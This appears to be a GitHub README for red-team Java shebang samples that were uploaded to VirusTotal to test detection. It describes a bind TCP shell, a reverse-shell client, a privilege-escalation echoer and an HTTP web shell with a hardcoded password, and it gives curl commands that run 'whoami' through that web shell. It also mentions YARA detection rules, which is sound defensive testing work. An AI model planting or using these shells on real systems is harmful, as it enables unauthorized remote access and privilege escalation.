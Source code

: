 #JAVA SHEBANG SAMPLES

Some samples that uses java scripts for red teaming. Uploaded to VT to check out detections:

catalina.sn:
![Image of catalina](https://github.com/akat12/Java-ShebangSamples/tree/master/images/catalina.png)

servers.xml:
![Image of servers](https://github.com/akat12/Java-ShebangSamples/tree/master/images/server_xml.png)

modulez.xml:
![Image of modulez](https://github.com/akat12/Java-ShebangSamples/tree/master/images/modulez_xml.png)

SampleApp.xml:
![Image of sampleapp](https://github.com/akat12/Java-ShebangSamples/tree/master/images/Sample_app.png)

##Sample List
catalina.sn :- cmd echoer, use stickybits to escalate priveleges. no rshell
servers.xml  :- bind a TCP shell listening on port 6666.
modulez.xml :- client for TCP rshell. pass the ip and port in cmdline
SampleApp.xml :- Http listener shell. Default password is trebuchet. Usage example:
                 GET : curl -X GET "http://127.0.0.1:8089/examples/Sampleappz.jsp?huskarl=trebuchet&paladin=whoami"
                 POST : curl -X POST "http://127.0.0.1:8089/examples/Sampleappz.jsp" -d "huskarl=trebuchet&paladin=whoami"

The yara rules to detect these samples are listed in detection.
